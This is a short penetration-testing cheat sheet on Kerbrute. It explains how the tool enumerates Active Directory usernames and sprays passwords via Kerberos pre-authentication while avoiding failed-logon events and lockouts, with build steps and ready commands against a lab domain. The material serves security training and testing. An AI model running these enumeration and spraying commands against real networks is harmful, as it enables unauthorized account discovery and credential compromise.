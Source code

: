 ```yaml
---
title: Kerbrute
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - enumeration
  - active directory
---
```

# Kerbrute

 It takes advantage of the fact that Kerberos pre-authentication failures often will not trigger logs or alerts.
 This method does not generate Windows event ID [4625: An account failed to log on](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4625), or a logon failure which is often monitored for.

**How it works?**

Basically, the tool sends TGT requests to the domain controller without Kerberos Pre-Authentication to perform username enumeration. If the KDC responds with the error `PRINCIPAL UNKNOWN`, the username is invalid. Whenever the KDC prompts for Kerberos Pre-Authentication, this signals that the username exists, and the tool will mark it as valid.

*This method of username enumeration does not cause logon failures and will not lock out accounts.*


```
sudo git clone https://github.com/ropnop/kerbrute.git

# Typing make help will show us the compiling options available.
cd kerbrute
make help

# type make all and compile one each for use on Linux, Windows, and Mac systems (an x86 and x64 version for each).
sudo make all

# The newly created dist directory will contain our compiled binaries.
ls -la dist
```


```
#############
# FOR LINUX
#############

# Add the tool to our PATH to make it accessible from anywhere in the host. For that we make sure first of the PATH
echo $PATH

# and then we move the binary to a path, for instance
sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute



#############
# FOR WINDOWS
#############
# Copy the file to the windows pivoting machine
scp kerbrute_windows_amd64.exe username@$ip:~/

```


## Basic commands

```
# User enumeration 
kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o valid_ad_users
# -d: domain
# --dc: domain controller
# -o: output file

# Password spraying attack with kerbrute
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1


```

**However**, using Kerbrute for username enumeration will generate event ID [4768: A Kerberos authentication ticket (TGT) was requested](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4768).  Defenders can tune their SIEM tools to look for an influx of this event ID.

